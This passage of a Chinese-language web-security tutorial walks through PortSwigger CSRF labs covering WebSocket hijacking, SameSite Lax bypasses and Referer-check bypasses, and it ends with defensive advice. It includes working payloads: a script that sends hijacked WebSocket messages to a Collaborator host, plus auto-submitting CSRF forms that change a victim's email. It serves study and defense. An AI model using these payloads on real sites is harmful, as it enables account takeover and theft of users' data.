重新创建先前在漏洞利用服务器上测试的CSWSH脚本

```plain
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110845-e4590284-b5ae-1.png)  
对整个脚本进行URL编码，随后返回漏洞利用服务器新创建一个脚本，引导查看器的浏览器发送刚才测试的GET请求  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110856-ea9f117e-b5ae-1.png)  
在响应中请注意网站在设置会话cookies时显式指定了SameSite=Strict，这可以防止浏览器在跨站点请求中包含这些Cookies

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110914-f5da5d3c-b5ae-1.png)

随后在burpsuite中的DNS监听中我们可以看到很多的请求，这是我们握手连接之后执行的交互操作，浏览历史记录找到由脚本触发的WebSocket握手请求，确认此请求确实包含您的会话cookie，由于它是从易受攻击的同级域启动的，浏览器认为这是同一个站点请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110953-0cec88f6-b5af-1.png)  
在DNS中收取到交互操作时的记录信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111031-23a34f76-b5af-1.png)  
随后使用账户密码进行登录，完成解题：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111043-2aea1206-b5af-1.png)

## Lax防护绕过

### 基本介绍

Lax SameSite限制意味着浏览器将在跨站点请求中发送cookie，但前提是同时满足以下两个条件：

-   请求使用GET方法
-   请求源于用户的顶级导航，例如：单击链接

这意味着跨站点POST请求中不包括Cookie，由于POST请求通常用于执行修改数据或状态的操作，因此它们更有可能成为CSRF攻击的目标，同样Cookie不包括在后台请求中，例如：由脚本、iframe或对图像和其他资源的引用发起的请求

### 绕过方法1

#### GET请求方法

在实际站点中服务器并不总是对是否收到给定端点的GET或POST请求很挑剔，即使是那些期望提交表单的服务器也是如此，如果他们也对会话cookie使用Lax限制，无论是明确的还是由于浏览器默认设置，您仍然可以通过从受害者的浏览器发出GET请求来执行CSRF攻击，只要请求涉及顶级导航，浏览器仍将包括受害者的会话cookie，以下是发起此类攻击的最简单方法之一

```plain
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

即使不允许普通的GET请求，一些框架也提供了重写请求行中指定的方法的方法，例如：Symfony支持表单中的method参数，出于路由目的，该参数优先于普通方法

```plain
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

#### 绕过演示流程

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)  
靶场演示：  
更改邮箱地址信息并使用burpsutie抓包，可以看到这里并没有设置csrfToken  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111225-6779435e-b5af-1.png)  
在用户登录设置会话cookie时网站也没有明确指定任何SameSite限制，因此浏览器将使用默认的Lax限制级别

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111300-7c179cb6-b5af-1.png)  
随后发送请求到repeat模块并更改请求方法，可以看到这里的GET请求方法也不被允许  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111316-859f4bf8-b5af-1.png)  
尝试通过向查询字符串中添加\_method参数来重写该方法，可以看到成功302跳转

```plain
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
Host: 0a5400b1044f8e7280d0264400d70024.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=76cbGkEjs6l0yhtyjUfc5wXPQCEZ9JwQ
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111343-95f7d0ce-b5af-1.png)  
随后在漏洞利用服务器中制作一下攻击载荷

```plain
<script>
    document.location = "https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111401-a0d7785a-b5af-1.png)  
随后存储并发送完成解题：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111413-a7f46bb6-b5af-1.png)  
感觉这里的化一个时GET方法替换POST，另一个是方法重写，这个点很是不戳~

### 绕过方法2

#### 基本介绍

具有Lax SameSite限制的Cookie通常不会在任何跨站点POST请求中发送，但也有一些例外，如果网站在设置cookie时不包含SameSite属性，Chrome默认情况下会自动应用Lax限制，然而为了避免破坏单点登录(SSO)机制，它实际上并没有在顶级POST请求的前120秒内强制执行这些限制，因此用户可能会在两分钟内受到跨站点攻击

#### 靶场示例

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)  
靶场演示：  
更新邮箱地址并使用Burpstuie抓包，可以看到这里并没有什么不可预测的Token随机数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111503-c5df56e0-b5af-1.png)  
查看登录数据包时可以看到在设置会话cookie时，网站没有明确指定任何SameSite限制，因此浏览器将使用默认的Lax限制级别：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111521-d0460de0-b5af-1.png)  
这里对OAuth的回调响应中也没有明确指定任何SameSite限制  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111537-d9fa4432-b5af-1.png)  
在漏洞利用服务器中使用以下模板创建用于更改受害者电子邮件地址的CSRF攻击

```plain
<script>
    history.pushState('', '', '/')
</script>
<form action="https://0ac500600323bab982e6fbd7003000a0.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111556-e54b43ea-b5af-1.png)  
退出账户时会有一次登录social media的操作：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111607-eb98dcbc-b5af-1.png)  
此时会刷新一次Token

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111616-f0e061b8-b5af-1.png)  
随后存储并进行漏洞的利用，此时的响应主要基于登陆后经过的时间长短：

-   如果时间超过两分钟，您将通过OAuth流登录，攻击将失败，在这种情况下，需要立即重复此步骤
-   如果时间不超过两分钟，则攻击成功，您的电子邮件地址也会更改，从HTTP历史记录中找到更改电子邮件请求并确认您的会话cookie已包含在内，即使这是跨站点POST请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111631-f9df72d6-b5af-1.png)

#### 绕过方法3

如果cookie设置为SameSite=None属性，浏览器无论如何都会有效地完全禁用SameSite限制，因此浏览器将在所有请求中向发出cookie的网站发送该cookie，即使是由完全无关的第三方网站触发的请求，而此类配置导致的禁用SameSite是有正当理由的，例如：当cookie旨在从第三方上下文使用并且不授予承载者访问任何敏感数据或功能的权限时，跟踪cookie就是一个典型的例子  
如果你遇到一个SameSite=None或没有明确限制的cookie，那么值得调查它是否有任何用处，当"默认Lax"行为首次被Chrome采用时，它的副作用是破坏了许多现有的网络功能，作为一种快速的解决方法一些网站选择简单地禁用SameSite对所有cookie的限制，包括潜在的敏感cookie，当设置SameSite=None的cookie时，网站还必须包括Secure属性，该属性可确保cookie仅通过HTTPS以加密消息的形式发送，否则浏览器将拒绝cookie并且不会对其进行设置

## Referer绕过

### 基本介绍

平常我们除了使用CSRF Token的防御CSRF攻击之外，还阔以利用HTTP Referer标头来尝试防御CSRF攻击，通常通过验证请求是否源自应用程序自己的域，这种方法通常效果较差而且经常会被绕过，z在一般的请求包中HTTP Referer头是一个可选的请求头，包含链接到所请求资源的网页的URL，它通常是在用户触发HTTP请求时由浏览器自动添加的，包括通过单击链接或提交表单，存在各种方法允许链接页面保留或修改Referer标头的值

### 绕过方式1

#### 场景介绍

某些应用程序会在请求中存在Referer标头时对其进行验证，但如果省略了标头则会跳过验证，在这种情况下攻击者可以通过某种方式利用CSRF漏洞，导致受害者用户的浏览器在生成的请求中丢弃Referer标头，关于这有点其实有多种方法可以实现，但最简单的方法是在承载CSRF攻击的HTML页面中使用META标记：

```plain
<meta name="referrer" content="never">
```

#### 靶场攻防

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)  
靶场介绍：此靶场的电子邮件更改功能易受CSRF攻击，它试图阻止跨域请求，但有一个不安全的callback请求，请使用漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看器的电子邮件地址，您可以使用以下凭据登录到自己的帐户：wiener:peter  
靶场演示：  
首先使用上述账户登录靶场并转到更改邮箱地址的界面，随后将请求发送到Burp Repeater可以看到这里并没有不可预测的CSRF Token等参数，通过更改Referer HTTP标头会发现请求被拒绝并给出反馈——"Invalid referer header"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111738-2201fcde-b5b0-1.png)  
当我们完全删除referer头时会发现请求被接受并实现302的跳转  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111752-2a5298ee-b5b0-1.png)  
随后创建并托管一个POC

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <header>
   <meta name="referrer" content="no-referrer">
 </header>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9f006e0360e6008406314b009300af.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei123&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111817-3984cf94-b5b0-1.png)

随后完成解题，而这里最关键的就是一个通过header标签来移除referer，这个也算是见识到了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111828-3fab5280-b5b0-1.png)

### 绕过方式2

#### 场景介绍

部分应用程序使用一种可以绕过的简单方式验证Referer标头，例如:如果应用程序验证Referer中的域以预期值开头，则攻击者可以将其作为自己域的子域

```plain
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

同样如果应用程序只是验证Referer包含其自己的域名，那么攻击者可以将所需的值放在URL的其他位置：

```plain
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

#### 靶场攻防

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)  
靶场介绍：此靶场的电子邮件更改功能易受CSRF攻击，它试图检测和阻止跨域请求，但可以绕过检测机制，你需要使用漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看器的电子邮件地址，您可以使用以下凭据登录到自己的帐户：wiener:peter  
靶场演示：  
登录靶场并使用burpsuite抓包，通过更改referer可以看到这里更改referer头之后会被提示"Invalid referer header"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111938-69a13d7a-b5b0-1.png)  
将referer移除也会提示——"Invalid referer header"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118111954-734326ae-b5b0-1.png)  
使用原始的域名信息则可以成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118112009-7c339154-b5b0-1.png)  
更改referer监测到底是包含域名就行还是开头必须时此域名——包含就行，只是简单的匹配  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118112025-8554da18-b5b0-1.png)

构造如下请求载荷，这将导致生成的请求中的Referer标头在查询字符串中包含目标网站的URL

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0a9a009704a8e041817f8e5200e10091.web-security-academy.net')</script>
    <form action="https://0a9a009704a8e041817f8e5200e10091.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118112045-91b751dc-b5b0-1.png)  
同时在Header部分添加如下内容：

```plain
Referrer-Policy: unsafe-url
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118112102-9b71426e-b5b0-1.png)

分发请求之后成功解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118112115-a344e91e-b5b0-1.png)

## 防御措施

1、CSRFToken  
抵御CSRF攻击的最稳健方法是在相关请求中包含CSRF Token，为了规避上述我们的各种Bypass，我们的Token必须要满足以下条件：  
绑定到用户的会话  
具有高熵的不可预测性，一般的会话令牌  
在执行相关操作(增删改)之前，在每种情况下都要严格验证  
2、SameSite cookie  
对每个cookie明确设置SameSite限制，通过这样做可以准确地控制cookie将在哪些上下文中使用，而不考虑浏览器，即使所有浏览器最终都采用"默认Lax"策略，但这并不适用于每个cookie，而且比严格限制更容易绕过，与此同时不同浏览器之间的不一致也意味着只有一小部分用户会从任何SameSite保护中受益。

## 参考连接

[https://portswigger.net/web-security/csrf/bypassing-token-validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)  
[https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)
